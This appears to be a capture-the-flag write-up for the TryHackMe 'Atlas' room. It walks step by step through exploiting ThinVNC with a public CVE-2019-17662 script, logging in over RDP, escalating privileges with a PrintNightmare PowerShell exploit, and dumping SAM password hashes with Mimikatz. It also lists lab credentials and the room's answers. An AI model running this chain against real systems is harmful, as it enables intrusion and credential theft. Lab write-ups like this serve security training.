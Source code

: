 ```yaml
---
description: https://tryhackme.com/room/atlas
---
```


# Atlas

## Enumeration

### Task 2 Port Scanning

#### Scan your target IP with Nmap! With the Nmap default port range, you should find that two ports are open. What port numbers are these?

```bash
nmap -n -sn 10.10.31.250
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 14-28-45.png>)

{% hint style="success" %}
3389, 8080
{% endhint %}

#### What service does Nmap think is running on the higher of the two ports?

{% hint style="success" %}
`http-proxy`
{% endhint %}

### Task 3 Service Enumeration

```bash
nmap -n -Pn -p3389,8080 -sV 10.10.31.250
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 14-38-00.png>)

```bash
curl -v http://10.10.31.250:8080
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 14-39-41.png>)

#### Use searchsploit to find the vulnerability in ThinVNC

```bash
searcploit ThinVNC
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 14-41-20.png>)

## Attack

### Task 4 Foothold

```bash
searchsploit -m 47519
python3 47519.py 10.10.31.250 8080
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 14-46-39.png>)

#### _Clone_ the Git repository at [https://github.com/MuirlandOracle/CVE-2019-17662](https://github.com/MuirlandOracle/CVE-2019-17662)  to your attacking machine.

#### This script _requires_ two arguments. Ascertain what these arguments are, then use the script to exploit the vulnerable service on the target.

```bash
git clone https://github.com/MuirlandOracle/CVE-2019-17662
cd CVE-2019-17662
python3 CVE-2019-17662.py 10.10.31.250 8080
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 14-54-24.png>)

#### Use the credentials found by the script to get past the HTTP Basic Auth presented when trying to access the vulnerable service in your web browser. You should have access to a user desktop!

![http://10.10.31.250:8080/](<../../.gitbook/assets/Screenshot from 2022-02-27 14-59-44.png>)

![](<../../.gitbook/assets/Screenshot from 2022-02-27 14-59-50.png>)

## Access

### Task 5 VNC / RDP

#### Most people take the easy option when it comes to passwords, which makes password reuse incredibly common. With that in mind, use `xfreerdp` to connect to the target over RDP.

```bash
xfreerdp /v:10.10.31.250 /u:Atlas /p:H0ldUpTheHe@vens /cert-ignore \                                  
         +clipboard /dynamic-resolution /drive:share,/tmp
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 15-12-07.png>)

## Attack

### Task 6 Privilege Escalation

#### There are many different implementations of PrintNightmare available. You are advised to use a [PowerShell version](https://github.com/calebstewart/CVE-2021-1675) written by [Caleb Stewart](https://twitter.com/calebjstewart) and [John Hammond](https://twitter.com/\_JohnHammond).

```bash
git clone https://github.com/calebstewart/CVE-2021-1675.git /tmp/CVE-2021-1675
```

#### Inside your RDP session, open a new PowerShell Window. The repository that we downloaded contains a PowerShell script that needs to be imported.

```bash
PS> . \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1
```

#### This uses dot-syntax to import any functions exposed by the script. We are using `\\tsclient\share` to reference the share that we created. This allows us to view files that are stored in the /tmp folder of our own attacking machine!

#### Only one thing left to do: run the exploit!

```bash
Invoke-Nightmare
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 15-44-12.png>)

#### Notice that our payload mentions creating a new user called `adm1n` with a password of `P@ssw0rd`? This is the default behaviour when using this exploit; however, we could have created our own payload and substituted that in should we have preferred another method of exploitation.

#### Regardless, we can now make use of our brand new admin account! We could take the simple option of right-clicking on PowerShell or cmd.exe and choosing to "Run as Administrator", but that's no fun. Instead, let's use a hacky little PowerShell command to start a new high-integrity command prompt running as our new administrator.

```bash
Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 15-48-31.png>)

#### Run the command `whoami /groups` in the new window. You should see `BUILTIN\Administrators` in the list of groups, and a line at the bottom of the output containing `Mandatory Label\High Mandatory Level`.

```bash
whoami /groups
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 15-49-41.png>)

#### These mean that you are running as an administrator with full access over the machine.

### Task 7 Post Exploitation

#### First up, let's get an up-to-date copy of Mimikatz to our attacking machine. The code for the tool is publicly available on Github, but fortunately for the sake of simplicity, there are also pre-compiled versions available for download.

#### Go to the [releases page](https://github.com/gentilkiwi/mimikatz/releases) for Mimikatz and find the latest release at the top of the list. Download the file called `mimikatz_trunk.zip` to your attacking machine.

```bash
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20210810-2/mimikatz_trunk.zip \
     -P /tmp
cd /tmp
unzip mimikatz_trunk.zip
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 16-03-19.png>)

#### Switch back into your RDP session and execute the following command to start Mimikatz

```bash
\\tsclient\share\x64\mimikatz.exe
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 16-04-54.png>)

#### When we start Mimikatz we usually have to execute two commands before we start dumping hashes:

* `privilege::debug` -- this obtains debug privileges which allows us to access other processes for "debugging" purposes.
* `token::elevate` -- simply put, this takes us from our administrative shell with high privileges into a `SYSTEM` level shell with maximum privileges. This is something that we have a _right_ to do as an administrator, but that is not usually possible using normal Windows operations.

#### With these commands executed, we are ready to dump some passwords hashes!

![](<../../.gitbook/assets/Screenshot from 2022-02-27 16-09-29.png>)

#### There are a variety of commands we _could_ use here, all of which do slightly different things. The command that we _will_ use is: `lsadump::sam`.

```bash
lsadump::sam
```

![](<../../.gitbook/assets/Screenshot from 2022-02-27 16-10-43.png>)

#### When executed, this will provide us with a list of password hashes for every account on the machine. The Administrator account password hash should be fairly near the top of the list:

#### What is the Administrator account's NTLM password hash?

{% hint style="success" %}
`c16444961f67af7eea7e420b65c8c3eb`
{% endhint %}
